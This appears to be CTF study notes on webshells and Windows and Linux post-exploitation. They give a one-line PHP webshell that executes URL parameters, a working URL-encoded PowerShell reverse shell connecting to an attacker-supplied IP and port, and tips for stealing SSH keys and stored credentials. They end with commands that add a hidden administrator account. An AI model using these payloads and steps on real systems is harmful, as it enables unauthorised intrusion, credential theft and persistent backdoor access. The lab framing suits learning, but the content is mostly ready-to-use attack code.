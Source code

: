 "Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

```
http://10.10.84.199/uploads/shell.php?cmd=ifconfig
```

would pass in a PHP rev shell code

when target is windows - remote code execution (url encoded)
```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


## next steps

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box.
-  In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable /etc/shadow or /etc/passwd would quickly give you SSH access to the machine, assuming SSH is open.

windows
- On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`  
- or `C:\xampp\FileZilla Server\FileZilla Server.xml`

```
net user <username> <password> /add
net localgroup administrators <username> /add
```










